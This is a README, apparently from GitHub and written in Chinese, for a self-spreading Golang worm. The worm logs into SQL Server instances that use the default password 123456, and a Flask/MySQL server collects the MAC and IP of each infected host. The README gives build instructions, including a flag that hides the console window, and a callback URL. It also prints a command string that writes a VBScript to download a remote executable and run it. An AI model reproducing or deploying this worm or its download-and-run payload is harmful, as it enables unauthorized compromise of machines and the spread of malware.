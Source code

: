 # Simple-Worm
------------
基于Golang利用sqlserver 弱口令（123456）写的一个简单的小蠕虫  

请勿用于破坏/反正没写几个函数

Server - 基于Python flask搭建的一个简单http服务端。用于记录蠕虫返回的数据(mac信息、某个网卡ip、和上传时间)  

Client - 基于Golang编写的蠕虫主文件

Server 端依赖库
```
MySQL-python
flask
```
Server运行
```
cd server/
python web.py
```
MySQL创建
```mysql
create database bot;
create table (mac text,ip text,time text)
```
需要手动修改里面的 ** MYSQL_HOST,MYSQL_USER,MYSQL_PASS,MYSQL_DB **

运行后访问地址： http://localhost/view

Client 编译

```bash
cd client/
go build -ldflags="-H windowsgui"
```
Client 调试运行
```bash
cd client/
go run main.go func.go
```
配置修改 

func.go 修改里面的域名即可
```
url := "http://localhost/callback?ip=" + ip + "&time=" + string(time) + "&mac=" + _mac // 回传信息

var exploit = `echo Set Post = CreateObject("Msxml2.XMLHTTP") >>zl.vbs && echo Set Shell = CreateObject("Wscript.Shell") >>zl.vbs && echo Post.Open "GET","https://remote/1.exe",0 >>zl.vbs && echo Post.Send() >>zl.vbs && echo Set aGet = CreateObject("ADODB.Stream") >>zl.vbs && echo aGet.Mode = 3 >>zl.vbs && echo aGet.Type = 1 >>zl.vbs && echo aGet.Open() >>zl.vbs && echo aGet.Write(Post.responseBody) >>zl.vbs && echo aGet.SaveToFile "zl.exe",2 >>zl.vbs && echo wscript.sleep 1000 >>zl.vbs && echo Shell.Run ("zl.exe") >>zl.vbs && cscript zl.vbs`
	
```
------------
为什么编写

某个机房，里边默认安装了sqlserver,并且默认密码都是123456 

IP扫描就乱写了。里边还有部分代码不合理

蠕虫登陆后![image](https://raw.githubusercontent.com/dongdong1972/Simple-Golang-Worm/master/image/result.PNG)
------------
```
# 怎么结束呢？
只要访问不了服务端就没事啦。

已知Bug:
    1. Server段存在mysql注入,执行处未作任何过滤.